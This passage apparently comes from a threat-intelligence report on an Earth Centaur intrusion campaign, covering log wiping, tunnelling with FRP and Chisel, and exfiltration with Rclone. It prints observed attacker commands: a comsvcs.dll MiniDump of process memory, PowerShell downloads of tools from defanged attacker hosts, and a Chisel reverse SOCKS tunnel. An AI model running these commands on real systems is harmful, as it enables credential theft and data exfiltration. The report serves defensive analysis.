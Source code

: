 rundll32.exe C:\Windows\System32\comsvcs.dll MiniDump 764 C:\Windows\TEMP\dump.bin full
Indicator Removal

To avoid exposing their footprints to investigators, the threat actors made their own tool to wipe out the event logs on the victimized machine. By using this tool, they could clean specified event logs and make it hard for investigators to track their operations.
The usage is as follows:











Intranet Penetration
After successfully exploiting the vulnerable system, threat actors also drop following tools: FRP and Chisel. FRP is a fast reverse proxy used to expose a local server behind an NAT or a firewall to the internet. It can read predefined configurations and make the host in the intranet available to users from the internet.






Figure 12. Configuration for FRP fast reverse proxy 





Chisel is a fast TCP/UDP tunnel, which is mainly used for passing through firewalls. It provides the capability to transport data over HTTP (secured via Secure Shell, aka SSH) and allows threat actors to pass through a firewall and get access to the machine behind the firewall.
This is used to download reverse proxy Chisel via PowerShell:
c:\windows\system32\windowspowershell\v1.0\powershell.exe -command "$(new-object System.Net.WebClient).DownloadFile('https[:]//webadmin[.]mirrorstorage[.]org/ch.exe', 'ch.exe')"
This is used to build a connection between inter/intranet via Chisel:

C:\WINDOWS\system32\ch.exe client https[:]//webadmin[.]mirrorstorage[.]org:443 r:127.0.0.1:47586:socks
Exfiltration
In the previous phase, we observed that the actors use several tools to get the whole picture of the network infrastructure and bypass the firewall. Afterward, we observed a PowerShell command used to download an effective tool, Rclone, which is used for exfiltration. It also provides an easy and effective way of copying data to several cloud storage providers.
C:\WINDOWS\System32\WindowsPowerShell\v1.0\powershell.exe -command "$(new-object System.Net.WebClient).DownloadFile('http://195[.]123[.]221[.]7:8080/rclone.exe', 'r.exe')"

Based on previous experience, Rclone has frequently been used in ransomware attacks to exfiltrate stolen data. However, it seems that currently, it is not only used in ransomware attacks but also in APT attacks.
Identifying Features in the Earth Centaur Campaign
After long-term observation and analysis of the attack campaigns, there was compelling evidence that they were operated by Earth Centaur. We found several identifying features of the threat actors within the techniques and tools described in the preceding sections, and we break down the factors in the following.
Mutex Style
We found some special mutexes that are encoded by the layout of the Chinese Zhuyin keyboard in ChiserClient. The decoded string is shown in Table 2. Based on these special mutex strings, we believe the threat actors come from a Chinese-speaking region.

